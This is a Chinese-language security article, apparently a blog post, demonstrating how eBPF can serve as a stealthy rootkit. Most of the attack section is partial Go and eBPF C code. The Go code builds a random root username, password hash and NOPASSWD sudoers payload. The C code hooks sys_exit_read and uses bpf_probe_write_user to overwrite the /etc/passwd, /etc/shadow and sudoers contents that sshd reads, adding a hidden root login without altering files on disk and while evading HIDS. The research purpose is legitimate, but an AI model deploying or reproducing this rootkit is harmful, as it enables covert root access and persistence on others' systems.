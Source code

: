 回顾eBPF的hook点，作用在syscall的kprobe、tracepoint事件类型，倘若用在后门rootkit场景，是十分可怕的。比如修改内核态返回给用户态的数据、拦截阻断用户态行为等，为所欲为。而更可怕的是，常见的HIDS都是基于内核态或者用户态做行为监控，eBPF恰恰绕开了大部分HIDS的监控，且不产生任何日志，简直让人“细思极恐、不寒而栗”。

**tracepoint事件类型hook**

在SSHD应用中，当用户登录时，会读取/etc/passwd等文件。用户态SSHD程序，调用open、read等系统调用，让内核去硬件磁盘上检索数据，再返回数据给SSHD进程。

**用户态生成payload**

用户态实现/etc/passwd、/etc/shadow等文件payload的生成，并通过eBPF的RewriteConstants机制，完成对ELF .rodata的字段值替换。

```
import "github.com/ehids/ebpfmanager"//  通过elf的常量替换方式传递数据func (e *MBPFContainerEscape) constantEditor() []manager.ConstantEditor { var username = RandString(9) var password = RandString(9) var s = RandString(8) salt := []byte(fmt.Sprintf("$6$%s", s)) // use salt to hash user-supplied password c := sha512_crypt.New() hash, err := c.Generate([]byte(password), salt)     var m = map[string]interface{}{} res := make([]byte, PAYLOAD_LEN) var payload = fmt.Sprintf("%s ALL=(ALL:ALL) NOPASSWD:ALL #", username) copy(res, payload) m["payload"] = res m["payload_len"] = uint32(len(payload))    // 生成passwd字符串 var payload_passwd = fmt.Sprintf("%s:x:0:0:root:/root:/bin/bash\n", username) // 生成shadow字符串 var payload_shadow = fmt.Sprintf("%s:%s:18982:0:99999:7:::\n", username, hash)     // eBPF RewriteContants    var editor = []manager.ConstantEditor{  {   Name:          "payload",   Value:         m["payload"],   FailOnMissing: true,  },  {   Name:          "payload_len",   Value:         m["payload_len"],   FailOnMissing: true,            },    }    return editor}func (this *MBPFContainerEscape) setupManagers() { this.bpfManager = &manager.Manager{  Probes: []*manager.Probe{   {    Section:          "tracepoint/syscalls/sys_enter_openat",    EbpfFuncName:     "handle_openat_enter",    AttachToFuncName: "sys_enter_openat",   },            ...  },  Maps: []*manager.Map{   {    Name: "events",   },  }, } this.bpfManagerOptions = manager.Options{  ...  // 填充 RewriteContants 对应map  ConstantEditors: this.constantEditor(), }}
```

**内核态使用payload**

```
const volatile int payload_len = 0;...const volatile char payload_shadow[MAX_PAYLOAD_LEN];SEC("tracepoint/syscalls/sys_exit_read")int handle_read_exit(struct trace_event_raw_sys_exit *ctx){    // 判断是否为rootkit行为，是否需要加载payload    ...    long int read_size = ctx->ret;    // 判断原buff长度是否小于payload    if (read_size < payload_len) {        return 0;    }        // 判断文件类型，匹配追加相应payload    switch (pbuff_addr->file_type)    {    case FILE_TYPE_PASSWD:        // 覆盖payload到buf，不足部分使用原buff内容        {            bpf_probe_read(&local_buff, MAX_PAYLOAD_LEN, (void*)buff_addr);            for (unsigned int i = 0; i < MAX_PAYLOAD_LEN; i++) {                if (i >= payload_passwd_len) {                    local_buff[i] = ' ';                }                else {                    local_buff[i] = payload_passwd[i];                }            }        }        break;    case FILE_TYPE_SHADOW:        // 覆盖 shadow文件        ...        break;    case FILE_TYPE_SUDOERS:        //覆盖sudoers        ...        break;    default:        return 0;        break;    }    // 将payload内存写入到buffer    ret = bpf_probe_write_user((void*)buff_addr, local_buff, MAX_PAYLOAD_LEN);    // 发送事件到用户态       return 0;}
```

按照如上Demo rootkit的设计，即完成了随机用户名密码的root账号添加。在鉴权认证上，也可以配合“eBPF网络层恶意利用”的Demo，利用eBPF map交互，实现相应鉴权。但rootkit本身并没有更改硬盘上文件，不产生风险行为。并且，只针对特定进程的做覆盖，隐蔽性更好。整个流程如下图所示：

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

eBPF在runtime安全场景恶意利用

不管是在物理机上，还是给了root+BPF权限的容器上，都一样生效。

#### 视频演示

